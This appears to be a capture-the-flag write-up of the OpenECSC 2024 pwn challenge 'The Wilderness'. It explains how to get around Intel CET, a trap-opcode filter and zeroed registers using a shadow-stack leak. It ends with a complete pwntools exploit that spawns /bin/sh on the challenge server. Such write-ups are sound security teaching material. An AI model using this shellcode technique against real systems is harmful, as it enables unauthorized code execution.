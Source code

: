 ```yaml
---
title: 'OpenECSC 2024 - Round 2'
challenge: 'The Wilderness'
date: 2024-04-29T00:00:00+01:00
author: 'v0lp3'
description: 'Writeup for the OpenECSC 2024 - Round 2 CTF challenge "The Wilderness"' 
cover: '/img/openECSC/logo.png'
tags: ['pwn']
draft: false
---
```


**tl;dr**

The challenge requires input of our shellcode's bytecode. There are several constraints that increase the difficulty:

- The environment relies on [Intel CET: Control Flow Enforcement Technology](https://www.intel.com/content/www/us/en/developer/articles/technical/technical-look-control-flow-enforcement-technology.html).
- Forbidden opcodes include traps such as syscall, sysexit, and int80.
- **All** registers are cleared.
- Our shellcode cannot contain `\x00` bytes.
- The shellcode is executed in a memory area that is only readable and executable, thus polymorphic shellcode cannot be used.

## First step

Upon uncompressed, the archive provided by the challenge contains the following files:

```bash
$ tree --filelimit 5
.
├── Dockerfile
├── build
│   └── the_wilderness
├── docker-compose.yml
├── run.sh
└── sde-external-9.33.0-2024-01-07-lin
```

We can observe from ./run.sh that the binary is executed using the [Intel Software Development Emulator (Intel SDE)](https://www.intel.com/content/www/us/en/developer/articles/tool/software-development-emulator.html).

```
#!/bin/sh

echo "[+] starting challenge..."
/home/user/sde/sde64 -no-follow-child -cet -cet_output_file /dev/null -- /home/user/build/the_wilderness
echo "[+] challenge stopped"
```

It's worth noting that the flag `-cet` is in use, which indicates the implementation of control flow enforcement technology.

## Environment setup

I made two changes to the files to set up the debug environment:
- Added the flag `-debug` in the *run.sh* file
- Modified the *Dockerfile* to install gdb and [gef extension](https://github.com/hugsy/gef).

## Code review

Shifting our focus to the `get_code` function within the binary, we can observe the following:

- The memory is always mapped at the address `0xdead000`
- Initially, the memory is set as readable and writable with `PROT_READ | PROT_WRITE` (3).

{{< figure src="/img/openECSC/the_wilderness/mmap.png" position="left" caption="0xdead000 mmap" captionPosition="left">}}

- Before execution, the permissions of the mapped area `0xdead000` are changed to `PROT_EXEC | PROT_READ` (5) using *[mprotect](https://man7.org/linux/man-pages/man2/mprotect.2.html)*.

{{< figure src="/img/openECSC/the_wilderness/mprotect.png" position="left" caption="0xdead000 mprotect" captionPosition="left">}}

- Our input cannot contain the bytecode `\x00`.

{{< figure src="/img/openECSC/the_wilderness/holes.png" position="left" caption="holes check" captionPosition="left">}}

- The input must not include trap instructions such as *syscall*, *sysenter*, or *int80*.

{{< figure src="/img/openECSC/the_wilderness/traps_check.png" position="left" caption="traps check" captionPosition="left">}}

{{< figure src="/img/openECSC/the_wilderness/traps_blacklist.png" position="left" caption="traps blacklist" captionPosition="left">}}

In the `run_code` function, all registers are cleared, including the SIMD registers. Furthermore, before executing the shellcode, even the fs and gs base are zeroed, eliminating any possibility of leaking addresses.
## Divide et impera

### Problem 1: Intel Control Flow Enforcement Technology

Intel Control Flow Enforcement Technology (CET) is a mitigation measure aimed at thwarting techniques like Return-Oriented Programming (ROP) and Jump-Oriented Programming (JOP). Essentially, after a return or a jump, the next expected instruction is an `endbr64`. If this expectation is not met, the subsequent instruction will trigger a segmentation fault.

#### Solution

In this scenario, we have complete control over the instruction that will be executed. Essentially, we need to place `endbr64` at the beginning of our shellcode.

### Problem 2: Traps are forbidden

Traps instructions are prohibited, and the code that checks for this behavior appears to be robust. We are not allowed to use the *syscall*, *sysenter*, or *int80* instructions.

#### Solution

We can exploit the fact that a reference to `syscall` is present in the binary. When `arch_prctl` is called, it will invoke `syscall` from the libc. If we can obtain a leak of the address of the binary, we can then jump to the syscall entry in the PLT (Procedure Linkage Table).

### Problem 3: No leak?

The unsettling aspect of this challenge is that everything is zeroed out. All general-purpose registers and even special ones are cleared. Even the base of `fs` and `gs` is set to zero.

#### Solution

To overcome this challenge, we need to find an instruction that will cause a leak in the registers. After some searching, I decided to skim through all the instructions of the [x86/x64 architecture](https://www.felixcloutier.com/x86/) architecture. Finally, I came across [RDSSPD/RDSSPQ](https://www.felixcloutier.com/x86/rdsspd:rdsspq). This instruction, when Intel CET shadow stack is enabled, will indeed cause a leak in the specified register.
## Exploit

Here is the full script:

```python
from pwn import *

context.arch = "amd64"

DEBUG = False

if DEBUG:
        r = remote("127.0.0.1", 1337)
        r.recvuntil("remote ")
        port = r.recvline(keepends=False).decode()
else:
        r = remote("thewilderness.challs.open.ecsc2024.it", 38012)

shellcode = []

# bypass CET
shellcode += ["endbr64"]

# Get a PIE leak

shellcode += ["rdsspq rsp"] # rsp now contains a shadow stack pointer leak
shellcode += ["mov rbx, [rsp]"] # rbx now contains a PIE leak

# prepare arguments to syscall from libc

shellcode += ["xor rdi, rdi"]
shellcode += ["xor rdi, 59"] # execve syscall
shellcode += ["xor rsi, rsi"]
shellcode += ["xor rsi, 0xdead02a"] # address of /bin/sh

# Call plt[syscall]

shellcode += ["sub bx, 0x1563"] # subtract main+63 offset
shellcode += ["add bx, 0x126f"] # offset of plt[syscall]
shellcode += ["call rbx"] # call plt[syscall]

shellcode += ['.ascii "/bin/sh"']

shellcode = asm("\n".join(shellcode))

r.sendlineafter(b"Wilderness?", str(len(shellcode)).encode())
r.sendlineafter(b"Wilderness?", shellcode)

log.info("Got shell ?!")

r.interactive()
```

> openECSC{h3r3_1n_th3_wild3rness_w3_l1ke_h1d1ng_1n_the_sh4dow_64d70520}